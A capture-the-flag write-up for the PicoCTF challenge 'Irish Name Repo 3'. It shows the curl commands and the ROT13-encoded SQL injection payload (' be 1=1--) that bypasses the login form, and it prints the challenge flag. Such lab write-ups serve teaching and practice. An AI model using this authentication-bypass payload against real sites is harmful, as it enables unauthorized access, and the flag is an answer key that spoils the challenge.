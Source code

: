 # Irish Name Repo 3

This is the write-up for the challenge "Irish Name Repo 3" challenge in PicoCTF

# The challenge

## Description
There is a secure website running at https://jupiter.challenges.picoctf.org/problem/29132/ (link) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!

![](img/Screenshot1.png)

## Hints
1. Seems like the password is encrypted.

## Initial look
When you open the challenge link, you land on a homepage with a navigation bar on the left.
To reach the login page, click the "Admin Login" button in the navbar. This will take you to a page with a password input form.

# How to solve it

Once you're on the login page, you see a simple form asking for a password. There's also a hidden input field called `debug`.
To better understand how the password is used, I set the `debug` value to `1`. You can do this using browser Developer Tools or with curl:

```bash
curl "https://jupiter.challenges.picoctf.org/problem/29132/login.php" --data "password=test&debug=1"
```

![](img/Screenshot2.png)

This gave the following output:

```sql
password: test  
SQL query: SELECT * FROM admin where password = 'grfg'
```

We can see that the password we entered (test) was changed to grfg. This shows the password is encrypted using ROT13 (a simple substitution cipher where each letter is replaced by the one 13 letters after it).

Next, I tried SQL injection by entering this:

```bash
curl "https://jupiter.challenges.picoctf.org/problem/29132/login.php" --data "password=' or 1=1--&debug=1"
```

But the debug output showed:

```vbnet
password: ' or 1=1--  
SQL query: SELECT * FROM admin where password = '' be 1=1--'
```

Again, the input was ROT13’d — or became be. But because of the quotes, the injection didn’t work.
So to make it work, I had to encrypt my injection before submitting it.
Original injection:

```vbnet
' or 1=1--
```

ROT13 version:

```vbnet
' be 1=1--
```

Then I submitted this:

```bash
curl "https://jupiter.challenges.picoctf.org/problem/29132/login.php" --data "password=' be 1=1--"
```

And it worked! I was logged in as admin, and the flag was displayed.
Voila!!! 😎

The flag is `picoCTF{3v3n_m0r3_SQL_06a9db19}`

Cheers 😄